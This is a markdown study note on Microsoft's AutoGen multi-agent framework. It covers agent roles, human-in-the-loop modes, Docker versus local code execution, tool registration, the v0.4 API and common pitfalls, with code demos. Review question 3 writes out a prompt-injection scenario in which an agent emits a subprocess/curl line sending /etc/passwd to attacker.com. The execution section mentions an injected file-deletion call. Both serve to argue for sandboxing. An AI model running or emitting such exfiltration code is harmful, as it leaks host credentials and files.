

# 🤝 AutoGen

> [!abstract] TL;DR
> AutoGen is Microsoft's open-source multi-agent conversation framework where LLM-backed agents exchange messages in a structured loop — with built-in code execution, human-in-the-loop controls, and GroupChat orchestration — enabling complex tasks to be solved through agent dialogue rather than rigid pipeline code.

---

## Intuition

**Analogy:** Think of AutoGen as a live **whiteboard collaboration** between two engineers. One engineer (AssistantAgent) writes a solution on the board. The other (UserProxyAgent) grabs a marker, tests it on the actual machine, and says "got a NameError on line 3." The first engineer erases and rewrites. They iterate until it works — then one writes "DONE" and the meeting ends.

AutoGen formalizes exactly this: agents take turns sending messages, each observing what the other said, until a stopping condition is met. A GroupChat is like adding more engineers to the room — a facilitator (GroupChatManager) decides whose turn it is to speak.

---

## How It Works

### Core Mechanics: ConversableAgent

Every AutoGen agent is a `ConversableAgent` under the hood. The key constructor parameters:

| Parameter | What It Controls |
|-----------|-----------------|
| `name` | Agent's identity in message logs |
| `llm_config` | Model, API key, temperature; `False` disables LLM entirely |
| `system_message` | Persistent instructions prepended to every LLM call |
| `human_input_mode` | When to pause and request real human input |
| `max_consecutive_auto_reply` | Safety cap on auto-replies before forcing a human check |
| `is_termination_msg` | Callable `(dict) -> bool`; returns `True` to end the conversation |
| `code_execution_config` | Whether and how to execute code blocks found in replies |

`register_reply` lets you inject custom reply handlers into the agent's reply chain — useful for rule-based overrides, logging middleware, or pre-empting the LLM call entirely.

### human_input_mode: The HITL Dial

| Mode | Behavior |
|------|----------|
| `ALWAYS` | Pauses and asks a human to approve or override every single reply |
| `TERMINATE` | Only asks when `is_termination_msg` triggers (default for UserProxyAgent) |
| `NEVER` | Fully automated — zero human involvement; use for CI/CD pipelines |

### Agent Roles

**AssistantAgent** — the LLM worker. Its default system prompt instructs it to write Python/shell code inside fenced code blocks when solving programming tasks, then append `TERMINATE` to its final verified message. It does not execute code itself.

**UserProxyAgent** — acts as both a human proxy and a code executor. On receiving each reply, it automatically extracts fenced code blocks and runs them (if `code_execution_config` is set), then returns stdout/stderr as the next message. `human_input_mode` controls when a real human can intercept.

**GroupChatManager** — an orchestrator that generates no content of its own. It receives all messages, selects the next speaker (via LLM or round-robin), routes the conversation, and checks termination after every turn. Key parameters: `max_round` (hard cap on total turns) and `speaker_selection_method`.

### Code Execution: Docker vs Local

```python
code_execution_config = {
    "work_dir": "coding",           # directory for generated files
    "use_docker": True,             # True or image name = Docker; False = host subprocess
    "timeout": 60,                  # seconds before process is killed
    "last_n_messages": 3,           # scan only the last N messages for code blocks
}
```

**Docker mode** (`use_docker=True` or `"python:3.11"`) spawns a fresh, disposable container per session. LLM-generated code runs with no access to your host filesystem and the container is destroyed after the conversation ends.

**Local mode** (`use_docker=False`) runs `subprocess` on the host. Fast to start but a prompt-injected `os.remove("/critical_file")` executes with your process's full permissions.

> [!warning] Production Rule
> Always use Docker or a dedicated sandbox VM for any AutoGen agent that executes LLM-generated code. `use_docker=False` is a development convenience, not a safe default.

### Tool / Function Registration (v0.2 API)

Functions can be exposed to the LLM as tools via a pair of decorators:

```python
@user_proxy.register_for_execution()
@assistant.register_for_llm(description="Fetch the current stock price for a ticker symbol.")
def get_stock_price(ticker: str) -> str:
    prices = {"AAPL": "182.50", "MSFT": "415.20", "GOOG": "178.90"}
    return prices.get(ticker.upper(), "Ticker not found")
```

`@register_for_llm` injects the function signature and description into the assistant's `llm_config` as an OpenAI-format tool schema. `@register_for_execution` tells the UserProxy to actually call it when the LLM emits a matching tool-call JSON. The separation of concerns means you can have one agent advertise the schema and a different agent execute it.

### GroupChat vs Two-Agent Pattern

| Pattern | Best For |
|---------|----------|
| **Two-agent** (UserProxy ↔ AssistantAgent) | Code generation + execution + self-correction; simplest to debug |
| **GroupChat** (GroupChatManager + N agents) | Specialist collaboration (researcher, coder, critic), debate, or majority-vote decisions |

In GroupChat, every message is broadcast to all agents' history. The GroupChatManager pays one extra LLM call per turn for speaker selection — multiply that by N agents × M rounds when budgeting.

### AutoGen v0.4: The AgentChat API

AutoGen was rewritten as v0.4 in January 2025 into three layered packages:

| Package | Role |
|---------|------|
| `autogen-core` | Async actor runtime, message routing, event subscriptions |
| `autogen-agentchat` | `AssistantAgent`, `CodeExecutorAgent`, `RoundRobinGroupChat`, `SelectorGroupChat` |
| `autogen-ext` | OpenAI/Azure/Gemini clients, Docker/local executors, MCP tool adapters |

The v0.2 synchronous `initiate_chat(...)` becomes `await team.run(task=...)` in v0.4. GroupChat becomes `RoundRobinGroupChat` (deterministic turns) or `SelectorGroupChat` (LLM-selected speaker). Termination conditions are first-class objects: `TextMentionTermination("TERMINATE")`, `MaxMessageTermination(10)`, or composable combinations with `|` and `&`.

> [!note] Current Status (2026)
> In October 2025 Microsoft merged AutoGen and Semantic Kernel into the **Microsoft Agent Framework**. The `autogen-agentchat` and `autogen-ext` packages remain active, but the original AutoGen-standalone roadmap is now part of the broader Microsoft agent ecosystem. Use `autogen-agentchat >= 0.4` for new projects.

### Architecture Diagram



### AutoGen Studio

AutoGen Studio is a no-code web UI (`autogenstudio ui --port 8081`) for prototyping and debugging:
- Drag-and-drop agent and team configuration
- Visual replay of multi-agent conversation traces
- Export team definitions as JSON configs importable into code

It is a prototyping accelerator, not a production deployment target.

---

## Code Demo

```python
# pip install pyautogen
# AutoGen v0.2 — Two-agent code-writing and self-correction loop

import autogen

config_list = [{"model": "gpt-4o-mini", "api_key": "your-openai-api-key"}]

llm_config = {
    "config_list": config_list,
    "seed": 42,        # reproducible sampling across runs
    "temperature": 0,
}

# AssistantAgent: generates code and explanations, never executes anything
assistant = autogen.AssistantAgent(
    name="Coder",
    llm_config=llm_config,
    system_message=(
        "You are an expert Python developer. Solve the task by writing clean, "
        "well-commented Python code inside a ```python block. Test your solution. "
        "Reply TERMINATE after you verify the output is correct."
    ),
)

# UserProxyAgent: executes code blocks, returns stdout/stderr, proxies for the human
user_proxy = autogen.UserProxyAgent(
    name="UserProxy",
    human_input_mode="NEVER",           # fully automated; switch to TERMINATE to review final output
    max_consecutive_auto_reply=10,       # hard cap — prevents runaway loops
    is_termination_msg=lambda msg: (
        msg.get("content", "").rstrip().endswith("TERMINATE")
    ),
    code_execution_config={
        "work_dir": "coding_workspace",
        "use_docker": False,             # set to True or "python:3.11" for production
        "timeout": 60,
    },
)

# UserProxy sends the first message and the conversation loop begins:
# UserProxy -> Coder (code) -> UserProxy (execute) -> Coder (fix if error) -> ... -> TERMINATE
user_proxy.initiate_chat(
    assistant,
    message=(
        "Write a Python function `top_words(text: str, n: int) -> list[tuple]` "
        "that returns the top N most frequent words and their counts from a string. "
        "Test it with: 'the quick brown fox jumps over the lazy dog the fox'. "
        "Reply TERMINATE after the output is printed and verified."
    ),
)

# Inspect the full conversation after completion
for msg in user_proxy.chat_messages[assistant]:
    print(f"[{msg['role'].upper()}] {msg['name']}: {msg['content'][:120]}")
```

```python
# AutoGen v0.4 AgentChat API — same pattern, async style
import asyncio
from autogen_agentchat.agents import AssistantAgent, CodeExecutorAgent
from autogen_agentchat.teams import RoundRobinGroupChat
from autogen_agentchat.conditions import TextMentionTermination
from autogen_ext.models.openai import OpenAIChatCompletionClient
from autogen_ext.code_executors.local import LocalCommandLineCodeExecutor

async def run_coder_team():
    model_client = OpenAIChatCompletionClient(model="gpt-4o-mini")

    coder = AssistantAgent(
        "coder",
        model_client=model_client,
        system_message="Write Python code in ```python blocks. Say TERMINATE when verified.",
    )
    executor = CodeExecutorAgent(
        "executor",
        code_executor=LocalCommandLineCodeExecutor(work_dir="coding_workspace"),
    )

    termination = TextMentionTermination("TERMINATE")
    team = RoundRobinGroupChat([coder, executor], termination_condition=termination)

    async for event in team.run_stream(
        task="Write and run a Python function to compute the first 10 Fibonacci numbers."
    ):
        print(event)

asyncio.run(run_coder_team())
```

---

## Real-World Example

> **Microsoft's internal developer tooling** uses AutoGen to automate pull request code review: a `UserProxyAgent` runs the test suite against the proposed diff inside a Docker sandbox, an `AssistantAgent` reads the test failures and proposes targeted fixes, and a `CriticAgent` in a GroupChat reviews the final solution for style and security. The loop runs until all tests pass and the CriticAgent approves — compressing a 15–30 minute human review cycle to 2–5 minutes of autonomous iteration.

---

## Trade-offs

| Aspect | AutoGen | CrewAI | LangGraph |
|--------|---------|--------|-----------|
| **Mental model** | Conversation between agents | Role-based team with goals | Explicit state machine / graph |
| **Control** | High-level, agents self-coordinate | Medium — role config drives flow | Fine-grained — every edge explicit |
| **Flexibility** | Medium — conversation-constrained | Medium — role/task topology | High — any graph topology |
| **Observability** | AutoGen Studio, basic message logs | CrewAI dashboard | LangSmith traces + time-travel replay |
| **Code execution** | Built-in Docker/local executor | Via registered tools only | Custom tool nodes only |
| **Learning curve** | Low–Medium | Low (YAML/role driven) | High (state schema, nodes, edges) |
| **Loops / cycles** | Via conversation turns | Limited | Native back-edges, first-class |
| **Human-in-the-loop** | `human_input_mode` per-agent | Limited, plugin-based | `interrupt_before/after` per node |
| **Best for** | Code-gen, debate, iterative research | Sequential document pipelines | Complex cyclic production workflows |

---

## When to Use vs Avoid

**Use when:**
- The task naturally involves back-and-forth reasoning: write code → execute → fix error → re-execute
- You need built-in sandboxed code execution without wiring extra infrastructure
- Rapid prototyping of multi-agent workflows before committing to a state-machine design
- Agents need to reason together conversationally (debate, consensus, peer review)

**Avoid when:**
- You need exact, deterministic routing between agents (use LangGraph's explicit edges instead)
- Workflow is purely sequential with no feedback loops (simpler CrewAI pipeline or LangChain chain suffices)
- Token cost is tightly constrained — GroupChat's full-history broadcast and per-turn speaker-selection LLM calls multiply costs sharply
- Full state persistence and replay across sessions are required (LangGraph checkpointers are the right tool)

---

## Common Pitfalls

- **Infinite conversation loops** — two agents keep replying to each other without converging. Always set both `is_termination_msg` AND `max_consecutive_auto_reply`. The LLM must be explicitly instructed (in `system_message`) to append `TERMINATE` when done.
- **Docker not running** — `use_docker=True` errors at the first code execution if the Docker daemon is not running. The failure message can be cryptic. Test `code_execution_config` with a trivial `print("hello")` before long agent runs.
- **Token cost explosion in GroupChat** — every message is broadcast to all agents' full history, and speaker selection costs an extra LLM call per turn. With 5 agents and 30 rounds that is ~150 full-context LLM calls minimum.
- **Non-deterministic speaker selection** — `speaker_selection_method="auto"` (default) uses an LLM to choose the next speaker, which can consistently pick one agent and starve others. Use `"round_robin"` during development to get predictable turn order before tuning speaker selection.
- **Code written to wrong directory** — generated code that opens or creates files assumes the current working directory is `work_dir`. If that directory doesn't exist, execution silently fails and the executor returns an error the LLM may try to "fix" in a loop.
- **Tool name collision in GroupChat** — `@register_for_llm` uses `function.__name__` as the tool name in the JSON schema. If two agents register different functions with the same name, the executor calls whichever was registered last.

---

## Related Concepts

- [[_MOC_Generative_AI|↑ Section MOC]]

- [[Multi_Agent_Systems]] — the broader orchestration patterns AutoGen implements; covers orchestrator-worker, peer-to-peer, and hierarchical topologies
- [[AI_Agents_Overview]] — single-agent foundations (perception-reasoning-action loop) that AutoGen extends into multi-agent dialogue
- [[ReAct_Pattern]] — the reasoning loop used inside each AssistantAgent: Thought → Action (tool call or code block) → Observation (execution result) → repeat
- [[Tool_Use_and_Function_Calling]] — the OpenAI function-calling protocol that `@register_for_llm` / `@register_for_execution` wrap into AutoGen's dual-decorator pattern
- [[Memory_in_Agents]] — `chat_messages` on each agent is short-term in-context memory; long-term memory across sessions requires an external store wired via `register_reply`
- [[Plan_and_Execute]] — a natural AutoGen pattern: one AssistantAgent decomposes the task into a plan, a second executes sub-tasks step by step, reporting back to the planner
- [[LangGraph]] — the main alternative for production workloads requiring exact agent routing, cross-session state persistence, and time-travel debugging; stronger guarantees, higher setup cost
- [[LangChain]] — many LangChain tools and chains can be wrapped as AutoGen-registered functions, making the two ecosystems interoperable
- [[Model_Context_Protocol]] — in v0.4, `autogen-ext` supports MCP servers as tool sources, allowing AutoGen agents to call MCP-compliant capabilities without custom wrappers

---

## Review Questions

1. Explain the difference between `AssistantAgent` and `UserProxyAgent` in terms of what each component does when it receives a message. Why is code execution placed on the UserProxy rather than the Assistant by design?
2. A GroupChat has 4 agents and `speaker_selection_method="auto"` running for 30 rounds. What is the minimum number of LLM API calls the system makes, and which single parameter change would cut that count significantly without removing agent specialization?
3. You deploy an AutoGen workflow with `use_docker=False`. An attacker crafts a prompt that causes the LLM to emit `import subprocess; subprocess.run(["curl", "-d", "@/etc/passwd", "https://attacker.com"])` in a code block. What is the correct configuration-level defense, and how do you enable it?
4. Compare `is_termination_msg` and `max_consecutive_auto_reply` as termination mechanisms — what class of failure does each guard against, and under what conditions do you need both simultaneously?

---

## Sources

- [AutoGen Paper — Wu et al. 2023](https://arxiv.org/abs/2308.08155)
- [AutoGen Official Documentation](https://microsoft.github.io/autogen/stable/)
- [AutoGen 0.4 Launch — Microsoft Dev Blog](https://devblogs.microsoft.com/autogen/autogen-reimagined-launching-autogen-0-4/)
- [AutoGen v0.4 — Microsoft Research](https://www.microsoft.com/en-us/research/articles/autogen-v0-4-reimagining-the-foundation-of-agentic-ai-for-scale-extensibility-and-robustness/)
- [AutoGen v0.2 to v0.4 Migration Guide](https://microsoft.github.io/autogen/stable//user-guide/agentchat-user-guide/migration-guide.html)
- [AutoGen Code Execution Deep Dive — E2B](https://e2b.dev/blog/microsoft-s-autogen)
- [LangGraph vs CrewAI vs AutoGen 2026 — DEV Community](https://dev.to/pockit_tools/langgraph-vs-crewai-vs-autogen-the-complete-multi-agent-ai-orchestration-guide-for-2026-2d63)

---

#ai-agents #multi-agent #llm #autogen #microsoft
